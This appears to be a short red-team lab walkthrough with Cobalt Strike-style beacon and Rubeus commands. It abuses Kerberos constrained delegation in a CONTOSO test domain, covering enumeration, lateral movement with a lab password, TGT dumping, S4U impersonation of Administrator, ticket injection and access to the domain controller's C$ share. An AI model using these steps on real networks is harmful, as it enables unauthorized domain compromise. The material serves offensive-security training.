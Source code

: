 # Attack

1.  Search for computers whose msDS-AllowedToDelegateTo attribute is not null.

    ```batch
    ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
    ```
2.  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** flag is set.

    ```batch
    ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl
    ```
3. Move laterally to _lon-ws-1_.
   2. make\_token CONTOSO\rsteel Passw0rd!
   3. jump psexec64 lon-ws-1 smb
4.  Dump the TGT for _lon-ws-1_.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
    ```
5.  Perform the S4U abuse to obtain a usable service ticket for _time/lon-dc-1_, substituting the service name for _cifs_.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:[TGT] /impersonateuser:Administrator /nowrap
    ```
6.  Inject the ticket into a sacraficial logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]
    ```
7. Impersonate the process.
   1. steal\_token \[PID]
8. Verify the ticket has been injected.
   1. run klist
9. Use the ticket to list the C$ share on _lon-dc-1_.
   1. ls \\\lon-dc-1\c$
